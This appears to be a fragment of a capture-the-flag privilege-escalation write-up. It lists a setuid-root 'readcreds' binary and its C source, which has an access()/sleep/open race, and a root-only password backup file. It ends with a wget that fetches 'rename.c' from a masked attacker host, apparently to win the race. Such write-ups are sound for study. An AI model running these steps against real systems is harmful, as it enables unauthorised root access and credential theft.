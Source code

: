 ```bash
frank@...:~/root_access$ ll
total 52
drwxr-xr-x 2 frank frank  4096 Sep  7 00:00 ./
drwxr-xr-x 5 frank frank  4096 Sep  6 23:57 ../
-rwsr-xr-x 1 root  root   8704 Jan 31  2021 readcreds*
-rw-r--r-- 1 root  root    656 Jan 31  2021 readcreds.c
-rw------- 1 root  root     34 Aug 23  2020 root_password_backup
```

```bash
frank@...:~/root_access$ cat readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);

}
```


```bash
frank@...:~/root_access$ wget http://xx.xxx.xx.xxx:8000/rename.c
...
rename.c                            100%[===================================================================>]     295  --.-KB/s    in 0s      
```
